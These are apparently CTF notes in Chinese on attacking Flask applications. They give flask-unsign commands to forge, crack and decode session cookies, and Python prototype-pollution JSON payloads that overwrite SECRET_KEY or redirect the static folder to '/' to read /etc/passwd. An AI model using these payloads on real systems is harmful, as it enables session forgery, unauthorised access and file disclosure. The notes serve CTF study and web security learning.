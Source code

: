 - uncicode 绕过 `\u0069`
- [原型链](#原型链污染)覆盖 SECRET_KEY , session 伪造
- 原型链覆盖 `_static_folder` , 访问 /static/etc/passwd

## flask session

需要得到 secret,

```sh
pip install flask-unsign
flask-unsign --sign --cookie "{'balance': 666666}" --secret "XMM<XMK"

flask-unsign --unsign --cookie "eyJ1c2VyIjoiaWRkbm0ifQ.YyVDmQ.nXit643ch5T34u092IJSngKbCwI" --wordlist dict.txt
flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8"
```

## 原型链污染

1. 覆盖 SECRET_KEY, 然后伪造 session

```json
{
  "__init\u005f_": {
    "__globals\u005f_": {
      "app": {
        "config": {
          "SECRET_KEY": "aaa"
        }
      }
    }
  },
  "username": 1,
  "password": 1
}
```

2. 覆盖 `_static_folder` 静态文件路径, 然后读 http://x.x/static/etc/passwd

```json
{
  "username": "test",
  "password": "test",
  "__init\u005f_": {
    "__globals__": {
      "app": {
        "_static_folder": "/"
      }
    }
  }
}
```

## flask 原型链污染获取 PIN 码

[Link](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93.zip)

# Article
[WP | Python原型链污染赛题Sanic解析](https://mp.weixin.qq.com/s/fhMBt6GUTMBR-VSgMjpLAg)

